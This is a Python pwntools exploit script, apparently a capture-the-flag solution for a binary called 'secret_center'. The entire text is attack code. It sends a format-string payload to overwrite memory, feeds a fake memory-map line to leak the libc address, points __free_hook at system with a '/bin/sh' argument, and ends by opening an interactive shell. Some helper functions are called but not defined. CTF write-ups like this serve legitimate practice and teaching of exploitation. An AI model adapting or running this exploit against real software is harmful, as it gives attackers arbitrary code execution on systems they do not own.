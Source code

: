 ```python
def set_guard():
	cmd(5)

def main(host,port=20508):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./secret_center")
		debug(0x000000000000F48)
		# gdb.attach(p)
	rule = open("./rule","rb").read()
	input_secret(0xf0,"\x00")
	dele()
	guard_ready()
	edit(len(rule),rule)
	set_guard()
	payload = ("%c"*24+"%232c"+"%hhn").ljust(0xa0,"\x00")+'\x10'
	input_secret(0xf0,payload)
	p.recvuntil("Not Good Secret :P\n\n")
	p.sendline("000000000000-7fffffffffff r--p 00000000 00:00 0    /fakemap\x00")
	input_secret(0xf0,"AAAAA\x00")
	p.recvuntil("[heap]\n")
	libc.address = int(p.recvuntil('-',drop=True),16)
	info("libc : " + hex(libc.address))
	
	payload = "/bin/sh;aa"+"%c"*15+ fmtstr2(libc.symbols["__free_hook"],p64(libc.symbols["system"])[:6],25)
	
	input_secret(0xf0,payload)
	# p.recvuntil("Not Good Secret :P\n\n")
	sleep(3)
	p.sendline("000000000000-7fffffffffff r--p 00000000 00:00 0    /fakemap\x00")
	dele()
	p.interactive()
	
if __name__ == "__main__":
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)
	main(args["REMOTE"])
```



